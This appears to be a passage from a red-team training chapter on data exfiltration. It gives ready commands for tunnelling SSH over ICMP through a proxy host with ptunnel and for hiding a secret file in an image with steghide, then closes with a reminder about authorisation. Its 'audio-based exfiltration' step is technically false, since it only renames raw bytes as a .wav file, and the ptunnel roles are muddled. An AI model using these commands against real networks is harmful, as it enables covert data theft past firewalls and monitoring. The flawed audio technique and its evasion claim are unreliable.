 ## Advanced Data Exfiltration Techniques

Beyond the tools covered above, consider these additional exfiltration techniques:

### 1. ICMP Tunneling with PTunnel

```bash
# On your attack machine:
ptunnel -p proxy.example.com -lp 8000 -da internal-server.local -dp 22

# On the target machine:
ssh -p 8000 user@localhost
```

This tunnels SSH traffic over ICMP echo requests (ping), which are often allowed through firewalls.

### 2. Image-based Steganography

```bash
# Hide data within an image
steghide embed -cf innocent.jpg -ef secret_data.txt -p "password123"

# Extract the hidden data
steghide extract -sf innocent.jpg -p "password123"
```

This conceals data within normal-looking image files, making exfiltration difficult to detect.

### 3. Audio-based Exfiltration

```bash
# Convert data to audio
cat secret_data.txt | xxd -p | tr -d '\n' > hex_data.txt
python3 -c "import sys; open('data.wav', 'wb').write(bytes.fromhex(open('hex_data.txt').read()))"

# Extract data from audio
cat data.wav | xxd -p | tr -d '\n' > recovered_hex.txt
python3 -c "import sys; open('recovered.txt', 'w').write(bytes.fromhex(open('recovered_hex.txt').read()).decode('utf-8'))"
```

This technique can bypass data loss prevention systems that aren't configured to analyze audio content.

## Conclusion

Data exfiltration and credential harvesting are critical phases in red team operations that demonstrate the real impact of a security breach. The tools and techniques covered in this chapter provide powerful capabilities for extracting valuable information while evading common detection mechanisms.

Remember that as a professional red teamer, your objective is to help organizations identify and address their security weaknesses. Always operate within the scope of your engagement and with proper authorization. 

In the next chapter, we'll explore sophisticated man-in-the-middle frameworks for intercepting and analyzing network traffic.
